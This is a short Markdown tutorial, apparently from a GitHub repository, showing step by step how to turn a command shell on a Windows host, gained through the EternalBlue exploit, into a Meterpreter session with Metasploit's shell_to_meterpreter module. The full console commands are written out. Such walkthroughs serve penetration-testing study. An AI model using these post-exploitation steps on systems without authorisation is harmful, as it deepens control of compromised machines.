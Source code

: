 # Getting a Shell to a Meterpreter Session in Metasploit

## This is a quick guide for anyone looking to upgrade their shell to meterpreter in the Metasploit framework

### To accomplish this, you will first need to establish a session using an exploit on the target system.

### So let's assume that you've successfully exploited the target and have the following on the command line

```
C:\Windows\system32 >
```

### Great work! Now we need to upgrade this regular shell to meterpreter. 
### First we need to background the session with, _CRTL+Z_ and when prompted type _y_ and press ENTER. This will background the session
### With the session backgrounded, the command prompt should look similar to this:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

### If you want to check the background session, simply type:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions
```

### And active sessions will be shown with Id, Name, Type, Information, and Connection displayed.

### Now on the Metasploit command prompt search:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter
```

### A list will be generated from which you will choose which module best fits your situation. To select one of the choices, simply type:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0 (or whichever number you decide)
```

### Your prompt will change to something like:

```
msf6 post(multi/manage/shell_to_meterpreter) >
```

### Now we need to run the show options command. 

```
msf6 post(multi/manage/shell_to_meterpreter) > show options
```

### You'll notice _SESSION_ is required. From the previous "sessions" command we know which session we want to set here. Type:

```
msf6 post(multi/manage/shell_to_meterpreter) > set session 1
```

### Always double check to make certain the parameter has been set by running the _show options_ command again. With the SESSION parameter set, type:

```
msf6 post(multi/manage/shell_to_meterpreter) > exploit (or run)
```

### This will open a new session. To list the sessions type:

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -l 
```

### You should have 2 sessions, the session with the normal shell and the session with the meterpreter shell. To access the meterpreter shell, type:

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
```

### You will now get the meterpreter shell and your command line prompt will change to the following:

```
meterpreter >
```

### You should now be able to run commands where on the previous shell you couldn't.
